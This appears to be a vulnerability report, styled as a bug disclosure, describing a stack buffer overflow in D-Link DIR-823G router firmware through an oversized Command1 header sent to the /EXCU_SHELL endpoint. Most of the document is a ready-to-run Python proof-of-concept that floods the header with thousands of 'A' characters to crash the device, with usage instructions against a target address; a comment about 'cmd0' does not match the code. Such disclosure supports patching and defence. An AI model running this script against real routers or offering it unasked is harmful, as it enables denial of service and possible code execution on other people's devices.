



# Bug Report: Buffer Overflow in D-Link DIR-823G Router
A buffer overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/EXCU_SHELL` endpoint and handles the `Command1` header parameter. When `FillMacCloneMac` is specified with excessive data, the buffer overflow occurs during string concatenation operations.


## poc



## Reproduce
```python
#!/usr/bin/env python3
import requests
import sys

def exploit(target, overflow_size=10500):
    url = f"{target}/EXCU_SHELL"
    
    # Create overflow payload
    overflow_payload = "A" * overflow_size
    
    headers = {
        'Command1': 'FillMacCloneMac' + overflow_payload,
        'Confirm1': 'apply'
    }
    
    # Try to control a1+12 (MAC data) via cmd0
    data = {
        'test'
    }
    
    print(f"[*] Target: {target}")
    print(f"[*] Overflow size: {overflow_size}")
    print(f"[*] Sending FillMacCloneMac with cmd0 overflow...")
    
    try:
        response = requests.post(
            url,
            headers=headers,
            data=data,
            timeout=10,
            verify=False
        )
        
        print(f"[+] Status: {response.status_code}")
        print(f"[+] Response: {response.text}")
        
    except requests.exceptions.Timeout:
        print("[!] Timeout - possible crash")
    except requests.exceptions.ConnectionError:
        print("[!] Connection error - possible crash")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 poc.py <target> [overflow_size]")
        print("Example: python3 poc.py http://192.168.0.1 10500")
        sys.exit(1)
    
    target = sys.argv[1]
    overflow_size = int(sys.argv[2]) if len(sys.argv) > 2 else 10500
    
    exploit(target, overflow_size)
```
